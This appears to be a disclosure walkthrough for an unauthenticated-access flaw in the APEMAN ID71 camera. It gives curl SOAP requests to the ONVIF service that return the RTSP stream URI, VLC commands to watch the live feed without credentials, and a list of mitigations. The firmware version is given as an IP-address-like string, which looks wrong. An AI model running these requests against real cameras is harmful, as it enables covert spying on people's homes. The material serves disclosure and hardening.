

### APEMAN ID71 — Unauthenticated RTSP Stream Walkthrough

This walkthrough shows how an unauthenticated attacker on the same network can leverage ONVIF endpoints to obtain the RTSP URI and watch the live video stream, without credentials.



Firmware version: "218.53.203.117"

### Prerequisites
- A host on the same network as the camera
- curl and an XML pretty-printer (e.g., `xmllint`) or any SOAP-capable client
- An RTSP viewer (e.g., VLC)

### Step 1 — Identify ONVIF service
The camera exposes ONVIF on port 10080. Replace `<camera-ip>` with the device IP.

```bash
curl -s -X POST http://<camera-ip>:10080/onvif/device_service \
  -H 'Content-Type: application/soap+xml; charset=utf-8' \
  -H 'SOAPAction: "http://www.onvif.org/ver10/media/wsdl/GetProfiles"' \
  -d '
<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope" xmlns:wsdl="http://www.onvif.org/ver10/media/wsdl">
  <soap:Header/>
  <soap:Body>
    <wsdl:GetProfiles/>
  </soap:Body>
</soap:Envelope>
' | xmllint --format -
```

From the response, note a profile token (e.g., `PROFILE_000`).

### Step 2 — Request the RTSP URI for the profile
Use the profile token found above.

```bash
curl -s -X POST http://<camera-ip>:10080/onvif/device_service \
  -H 'Content-Type: application/soap+xml; charset=utf-8' \
  -H 'SOAPAction: "http://www.onvif.org/ver10/media/wsdl/GetStreamUri"' \
  -d '
<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope" xmlns:wsdl="http://www.onvif.org/ver10/media/wsdl">
  <soap:Header/>
  <soap:Body>
    <wsdl:GetStreamUri>
      <wsdl:ProfileToken>PROFILE_000</wsdl:ProfileToken>
    </wsdl:GetStreamUri>
  </soap:Body>
</soap:Envelope>
' | xmllint --format -
```

The response includes a URI similar to:

```xml
<trt:GetStreamUriResponse>
  <trt:MediaUri>
    <tt:Uri>rtsp://<camera-ip>:10554/udp/av0_0</tt:Uri>
  </trt:MediaUri>
</trt:GetStreamUriResponse>
```

### Step 3 — View the stream (no credentials required)
Open the returned RTSP URI in your player.

```bash
# UDP
vlc rtsp://<camera-ip>:10554/udp/av0_0

# TCP
vlc rtsp://<camera-ip>:10554/tcp/av0_0
```

If successful, the live video feed plays immediately.

### Why this works
- ONVIF endpoints return RTSP stream URIs without authentication
- The RTSP server accepts connections without credentials

### Recommended mitigations
- Require authentication on ONVIF media and device services
- Enforce credentials on RTSP streaming endpoints
- Restrict access with network ACLs/VLAN segmentation
- Disable ONVIF if unused; limit to trusted management hosts
- Update firmware if a fix is available


